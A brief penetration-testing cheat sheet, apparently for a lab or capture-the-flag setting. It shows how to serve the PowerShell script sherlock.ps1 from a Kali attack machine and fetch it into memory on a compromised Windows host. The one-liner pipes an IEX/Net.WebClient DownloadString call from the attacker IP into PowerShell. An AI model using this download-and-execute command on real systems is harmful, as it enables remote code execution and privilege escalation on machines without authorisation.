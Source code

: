 # How to download and execute a PS file on Windows machines
## Scenario
Kali attack machine: 10.10.16.18  
We have a user shell on a windows machine.  
We have a PowerShell file on Kali attack box that we want to run: sherlock.ps1  

## Get the file ready
Put it into /root/transfer/  
Start HTTP server: *python3 -m http.server 80*  

## Download and run the file on windows machine  
To the user shell  
Go to a folder that we can write: *cd c:\temp*  
*echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.18/sherlock.ps1') | powershell -noprofile -*  
